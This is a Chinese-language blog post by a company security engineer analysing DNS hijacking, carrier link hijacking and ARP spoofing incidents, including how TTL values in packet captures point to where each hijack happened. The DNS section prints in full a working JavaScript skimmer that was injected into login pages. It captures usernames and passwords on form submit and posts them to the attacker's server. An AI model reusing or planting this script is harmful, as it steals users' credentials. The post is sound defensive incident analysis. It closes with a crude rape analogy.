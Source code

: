 # 浅谈互联网中劫持的一些事情

PS：不确定文章中的内容会不会被和谐 互联网中劫持可以理解为正常用户的请求在返回响应之前响应内容被篡改，或者正常用户的请求内容被非法获取从而代为请求。无论是个人还是公司或多或少都会碰到劫持这类事情，无论小到ARP攻击、还是大到运营商的链路劫持、甚至天朝的G*F*W。笔者在一家互联网公司工作，只是根据碰到的一些情况来进行浅谈，深而广的内容只能让有更多经验的来谈了，对于本文的内容也欢迎各位拍砖。

### 一、DNS劫持

先来谈下DNS劫持。在去年的”斯巴达“期间，公司的业务监控部门监测到公司的一个业务的访问量骤降，同时运维部门也监测该业务的域名在全国大面积运营商的DNS服务器返回的A记录被修改为一个不是我们的IP：61.49.43.2。时间主要集中在上网的高峰期，持续一个小时左右。下图为DNS解析的抓包（图一）。

![20130527212642_36164.png](http://drops.javaweb.org/uploads/images/09e232fbbcf35cdd6035a26f4178dc39ce98e1e8.jpg)图一 最初以为是对运营商DNS的投毒攻击，不过随着分析的深入发现，在受影响的地区，递归到13台根DNS服务器返回的都是这个IP，看来不只是简单的对运营商DNS的投毒攻击。 并且我们对 61.49.43.2 这个IP也进行了分析，发现其为一台Nginx的反向代理服务器，用户访问我们的业务，其在返回的页面中插入一段JS代码，功能就是在用户登录之前先获取用户输入框中的用户和密码（业务本身传输密码是加密的），然后再提交到这个服务器的一个页面。最后恢复用户的正常登陆。整个过程用户几乎感受不到影响。 同时我们还发现有其他互联网公司的该业务会受到影响，如果直接把其他公司同类业务的域名解析到这个IP上，发现插入的代码会根据业务而变化，很有针对性。甚至gmail都有影响。 下面是被插入的JS代码：

```
<script>
var xmlHttp;

function sendurl(uri, u, p, i) {
    xmlHttp = GetXmlHttpObject();
    if (xmlHttp == null) {
        return;
    }
    param = "user=" + u + "&pass=" + p + "&icp=" + i;
    xmlHttp.onreadystatechange = stateChanged;
    try {
        xmlHttp.open("POST", uri + "?t=" + (new Date()).valueOf(), true);
    } catch (e) {}
    xmlHttp.setRequestHeader("If-Modified-Since", "0");
    xmlHttp.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xmlHttp.send(param);
}

function stateChanged() {}

function GetXmlHttpObject() {
    var xmlHttp = null;
    if (window.ActiveXObject) {
        var MSXML = ['MSXML2.XMLHTTP', 'Microsoft.XMLHTTP', 'MSXML2.XMLHTTP.5.0'];
        for (var n = 0; n < MSXML.length; n++) {
            try {
                xmlHttp = new ActiveXObject(MSXML[n]);
                break;
            } catch (e) {}
        }
    } else if (window.XMLHttpRequest) {
        try {
            xmlHttp = new XMLHttpRequest();
        } catch (e) {}
    }
    return xmlHttp;
}
try {
    var fList = document.getElementsByTagName("form");
    var f;
    for (var i = 0; i < fList.length; i++) {
        if (fList[i].pwdInput != null) {
            f = fList[i];
            break;
        }
    }

    function ffCheck() {
        try {
            try {
                var u = null != f ? f.idInput.value : document.getElementById("idInput").value;
            } catch (e) {
                var u = (document.getElementById("idInput").innerHTML).replace(/\s/g, "");
            }
            var p = null != f ? f.pwdInput.value : document.getElementById("pwdInput").value;
            if (u.indexOf("@") == -1) u += "@xxx.com";
            try {
                if (u.indexOf("@") == -1) u = u + getdomain();
            } catch (e) {}
            sendurl("/abc", u, p, "coremail");
        } catch (e) {}
        return fOnSubmit();
    }
    if (null != f) f.onsubmit = ffCheck;
} catch (e) {}
</script>

```

最后问题得到解决并不是我们找到了问题的原因，而是在我们向“有关部门”反馈后，这种劫持竟然停止了。

### 二、链路劫持

再来谈下这个链路劫持，还是同样的业务，在有用户投诉会经常登录我们的业务失败，才介入的分析。在受影响的用户计算机上进行抓包发现一个奇怪的现象，就是用户发起一个请求会接收到两个响应包，浏览器没有办法判断哪个是真的哪个是假的，只信任第一个接收到的响应包，这个包的内容就是我们正常页面的内容加上一段js代码，这个js代码和之前DNS劫持的代码类似所以就不贴代码了，获取用户名和密码然后返回。 从包的TTL和Identification大致可以判断是是被第三方劫持，如下图（图二、图三）：

![20130527212943_73541.png](http://drops.javaweb.org/uploads/images/b9d8f2932711937f9daabcca7b414a89d24fff9e.jpg)图二![20130527213039_14540.png](http://drops.javaweb.org/uploads/images/b31cf07ee35d35d5657fa57e087e895623152812.jpg)图三 其实从TTL可以大概的判断劫持发生的位置，在这次的劫持事件中推断劫持的位置发生在我们网关的下一跳，应该是运营商所为，但是运营商并不承认这样做。还能怎么办呢？！ 这种情况之前腾讯也有碰到过，参见：http://security.tencent.com/index.php/blog/msg/10。 有的公司采取HTTPS来解决这个问题，其实笔者认为HTTPS应该是无法完全解决这个问题，因为用户直接通过HTTP来访问业务，业务是通过301之类的方式跳转到HTTPS，如果劫持发生在跳转之前，其实还是一样的效果的。

### 三、ARP攻击

最后再来说下ARP攻击吧，我想大部分搞安全的对ARP攻击都会很熟悉，本次ARP攻击并不是直接攻击我们的业务，而是攻击合作商的业务，但是我们的业务中嵌入的有合作商的代码，所以最终达到攻击我们的效果。 问题最初是有用户投诉我们的一些论坛之类的业务再晚上高峰期访问会弹出广告，经过业务确认不是我们的广告，由于受影响的用户比较多，所以排除是个案的可能，介入分析。发现是直接嵌入的一个合作商的JS代码内容被修改，完全替换为弹出广告的JS代码。 下面是在受影响用户电脑上抓包的截图，如下图（图四）：

![20130527213239_65120.png](http://drops.javaweb.org/uploads/images/cac0243fc619728a994a616a5d6073fed4ea6735.jpg)图四 从截图中可以看到和之前的链路层劫持一样，用户收到两个响应包，同样根据TTL判断是劫持，但是从TTL来看和之前运营商的劫持不一样，正常包TTL为46，而劫持的那个包的TTL为110，一般来说服务器不会修改默认的TTL值，Linux默认的TTL为64，Windows默认的TTL为128，从抓包中的TTL和默认的TTL做对比发现，相差都是18。我们推断这次劫持就是发生在合作商的机房内，同一个C段，攻击服务器应该是一台Windows服务器。 把问题反馈给合作商，让他们以及联系机房进行处理，最后的结果就是同一个C段有一台Windows服务器不断的进行ARP攻击。

### 四、总结

其实没有什么好总结的，无论是个人还是企业我们只能够尽量做好自身，对于我们不可控的始终是不可控。正如生活就如强奸，如果无力反抗就只能默默享受了。 over~！